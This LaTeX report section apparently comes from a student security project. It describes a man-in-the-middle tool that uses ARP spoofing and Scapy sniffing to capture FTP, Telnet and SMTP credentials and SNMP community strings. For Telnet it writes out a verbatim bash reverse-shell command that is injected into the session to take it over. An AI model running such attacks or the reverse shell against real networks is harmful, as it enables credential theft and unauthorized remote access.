% !TeX root = ssre.tex
\section{Solution}

The final product of this projects accomplishes the 1st step mentioned on 
section \ref{sec:Intro} through a \textit{ping broadcast} command, 
identifying all available hosts present in the network.
It then positions itself using \textit{ARP spoofing}, communicating to both 
users that the IP to which they intend to communicate with belongs to its MAC 
address. 
Finally, it preforms 1 type of exploitation (active and passive), depending on
the service being used.

Given the nature of MITM attacks, an emphasis is given to the continuous 
forwarding of packets between both victims, as to not alert the users that the 
communication has been compromised.
This usually requires a fast forwarding process to simulate a normal traffic 
flow. 

The proposed final system overcomes this difficulty using the Linux 
IP forwarding mechanism and deactivating ICMP redirecting in the attacker machine.

\begin{figure}[h!]
    \centering
    
\includegraphics[width=1\linewidth,keepaspectratio]{ARPSpoffing.png}
    \caption{Communication flow before and after ARP Spoofing}
    \label{fig:ArpSpoofing}
\end{figure}
\FloatBarrier

\subsection{FTP Passive Attack}

Using the built-in Scapy's \textit{sniff} function, the attacker starts by sniffing the on-play interface filtering packets by the TCP port (port \textbf{21} in the context) and checking whether specific keywords (like USER or PASS) are present on the packet's payload. The server's replies to these packets are then evaluated to see whether the previous credentials are valid or not. Those credentials are stored for possible further usage. 


\subsection{SNMP Passive/Active Attack}

Using the built-in Scapy's \textit{sniff} function, the attacker starts by sniffing the on-play interface filtering packets by the UDP port (port \textbf{161} in the context). 

%PAH NAO SEI REFORMULAR ISTO MAS TAMBEM NAO SEI SE É PRECISO, SE É ASISM TAO MAU REPETIR
After detecting SNMP packets, the information below is printed to the stdout:
\begin{itemize}
    \item IP destination of the packet
    \item IP source of the packet
    \item OID and OID value
    \item Community String
\end{itemize}
Since that information is sent using ASN.1 protocol, the system asks the user to enter manually the displayed community string and IP dst to perform an active SNMP attack. This attack consists of sending a craft SNMP GET packet to the device, querying it for its system description. The answer for that packet is then outputted to the stdout.

\subsection{Telnet Passive/Active Attack}
\subsubsection{Passive Attack}

The attacker sniffs the network traffic, through Scapy's built-in \textit{sniff}
function, filtering packets by the Telnet associated port (\textbf{23}). 
These packets don't have any type of encryption, and as such can be easily 
analyzed and outputted to stdout.

The developed system also detects which parties are involved in the 
communication and what their roles are (who's the client and who's the server).
It achieves this by analyzing the contents of the exchanged packets and 
correlating them with the expected Telnet's mode of operation.
On a Telnet connection the server acknowledges every keystroke 
inputted by the user - meaning every action performed by the user is then 
repeated back by the server to confirm the received input.
By analyzing the origin of the repeated messages, is then possible to determine
which of the involved parties plays the 
server role. 

\subsubsection{Active Attack}

After both roles in the communication are determined the system waits for an
"appropriate" time to inject a nefarious packet in the communication.
(\underline{Note:} The need for this "appropriate" time is debatable, the main 
idea behind it was to find a small time window where no immediate packets 
are exchanged and inject the packet there. 
This way there's a better chance for the attacker to "guess" the correct Seq. 
and ACK numbers being used.
Since the attacker is placed already in-between both parties this sort of 
timing procedure is unnecessary.)
This nefarious packet launches a reverse shell targeting the server and 
returning a valid shell connection back to the attacker's 1337 port using:
\begin{verbatim}
/bin/bash -i >& /dev/tcp/192.168.109.138/1337 0>&1
\end{verbatim}
The attacker, waiting for this reverse shell using netcat, then gains shell
access to the server, impersonating the legitimate client.
Finally, a forged RST TCP packet is sent to the server closing the previous 
Telnet client-server communication, effectively shutting down the user's 
connection.
\subsection{SMTP Passive Attack}

Using the built-in Scapy's \textit{sniff} function, the attacker starts by sniffing the on-play interface filtering packets by the TCP port (port \textbf{25} in the context) and checking for specific keywords in the packet's payload (sent from a client to the SMPT server), such as MAIL FROM/RCPT TO/DATA. That information is parsed and then outputted to the stdout. This passive attack ends checking if the server replies with the indication that the previous email was successfully queued. 

